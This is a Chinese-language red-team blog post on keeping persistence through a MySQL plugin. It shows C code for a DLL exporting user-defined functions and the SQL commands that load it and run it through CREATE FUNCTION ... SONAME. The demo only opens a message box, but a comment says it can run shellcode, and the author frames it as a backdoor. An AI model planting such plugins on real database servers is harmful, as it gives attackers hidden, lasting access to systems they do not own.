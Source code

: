 ```yaml
---
layout:     post
title:    权限维持-mysql插件
subtitle:   构建一个mysql后门
date:       2019-12-20
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 后门
    - 红队
    - 内网渗透
---
```

# 权限维持-mysql插件
## 简介
算是个插件后门的思路，mysql演示起来比较方便，不过测试的时候也碰到了好些问题。  

## 测试
首先去mysql的官网下一份mysql的库文件。  
然后创建一个dll项目，在属性中添加加包含目录，路径为下载mysql库文件的include目录。  
![191220_1](/img/191220_attach.png)  
把lib目录下的两个库文件放到dll项目中。  
![191220_2](/img/191220_mysqllib.png)  
然后来一段测试代码，编译出dll。  
```
#include "stdafx.h"
#include "Windows.h"
#include <mysql.h>
#pragma comment(lib,"libmysql") //引用lib文件

extern "C" {
    __declspec(dllexport) void mysql_test() {
        MessageBox(NULL, L"test", L"test", 0); //弹框测试下这里可以替换成别的，执行shellcode
    }
    __declspec(dllexport) my_bool mysql_test_init() { 
        return 0;
    }
}
```  
注意这里编译的时候要注意x86还是x64，最好都编译了，实际加载的时候都试下。  
![191220_3](/img/19220_lib.png)  
放到对应的mysql/lib/plugin目录下,没有的话自己建一个。  
然后在mysql命令行中创建方法（方法名字根据之前的dll文件里的命名来）。  
```
CREATE FUNCTION mysql_test RETURNS INTEGER SONAME "dc.dll";
select mysql_test();
```
执行就可以看到弹框执行。  
![191220_4](/img/191220_messagebox.png)  
可以顺着思路拓展，当成一个真正可以利用的后门。   

## 注意
我这里测试的是win7 x64，是可以成功执行的。在2003中，发现始终无法创建方法，无论是32位的dll还是64位的dll，没有找到原因。  
